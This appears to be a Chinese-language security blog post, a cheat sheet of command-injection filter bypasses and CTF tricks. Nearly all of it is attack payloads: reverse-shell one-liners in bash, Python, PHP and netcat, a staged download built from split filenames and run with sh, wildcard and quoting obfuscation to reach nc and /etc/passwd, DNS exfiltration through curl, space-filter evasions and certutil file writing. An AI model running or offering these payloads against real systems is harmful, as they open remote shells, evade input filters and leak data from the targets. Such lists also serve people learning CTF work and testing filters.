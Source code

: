 \---

layout: post

title: "命令注入bypass总结（长期更新）"

subtitle: "一些各种实战奇淫技巧,CTF Trick"

date: 2018-12-20

author: otto.known

category: security

finished: true

\---



[TOC]



\```bash

sh -c "cmd"





bash -i >& /dev/tcp/ip/port 0>&1



python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ip',port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"



php -r 'exec("bash -i >& /dev/tcp/ip/port 0>&1");'



php -r '$sock=fsockopen("ip",port);exec("/bin/bash -i <&3 >&3 2>&3");'



nc -e /bin/bash ip port





\```



\```bash

` & || | $()



%0a 换行符



%0d 回车符



;  连续指令



a=l;b=s;$a$b 局部变量



curl `whoami`xxxx.xxx DNS管道解析

\```







==Trick==

\```bash

1>wget\

1>xxx.com.\

1>com\

1>-O\

1>she\

1>ll.p\

1>p

ls -t>a

sh a

\```

\> ls -t 是按照时间顺排序





http://2130706433  IP转10进制



http://0x7F000001  IP转16进制



\> 转化网址：http://www.msxindl.com/tools/ip/ip_num.asp



\## 通配符





\```bash

/???/n? -e /???/b??h 127.0.0.1 6666



bin/nc -e /bin/bash 127.0.0.1 6666



/???/c?t /?t?/p??swd

\```







\```

\*  代表『 0 个到无穷多个』任意字符

?  代表『一定有一个』任意字符

[ ]  同样代表『一定有一个在括号内』的字符(非任意字符)。例如 [abcd] 代表『一定有一个字符， 可能是 a, b, c, d 这四个任何一个』

[ - ]  若有减号在中括号内时，代表『在编码顺序内的所有字符』。例如 [0-9] 代表 0 到 9 之间的所有数字，因为数字的语系编码是连续的！

[^ ]  若中括号内的第一个字符为指数符号 (^) ，那表示『反向选择』，例如 [^abc] 代表 一定有一个字符，只要是非 a, b, c 的其他字符就接受的意思

\```





\## cat flag->





\```bash

cat fla[a-z]





cat fl[a]g



cat f``lag



c’a’t /f’la’g



cat fl??



cat f*

cat $(echo -n "base64加密的flag" | base64-d)



cat `echo -n "base64加密的flag" | base64-d`



c\at /fl\ag



head /`ls /|grep 'fla'



a=c;b=at;c=fl;d=ag;$a$b $c$d

\```





\## 利用历史执行记录来bypass

\```bash

root@kali$ cat

root@kali$ fl

root@kali$ ag



root@kali$ history

1.cat

2.fl

3.ag



root@kali$ !1!2!3

flag{ea3y_bypa3s_inj3ct1on}



\```





==过滤空格的时候==



\```bash

cat${IFS}flag



cat$IFS$9flag



<



``

\```



%09 (需要php环境)







\## 命令终止符





\```

%00 %20

\```



\## 其他绕过



\```bash

cat$u /etc$u/passwd$u



/?in/cat /?tc/p?sswd



/'b'i'n'/'c'a't' /'e't'c'/'p'a's's'w'd



/"b"i"n"/"w"h"i"c"h" "n"c



/b\i\n/w\h\i\c\h n\c





\```



\## 写文件



Windows





\```

echo 48 65 6C 6C 6F 2C 57 6F 72 6C 64 21 >hex.txt

生成 hex.txt，机器码对应的内容是 Hallo World!

certutil -decodehex hex.txt bin.txt

也可以base64解码

certutil -decode hex.txt bin.txt

\```



Linux



\```bash

echo -e "\x61">1.txt

\```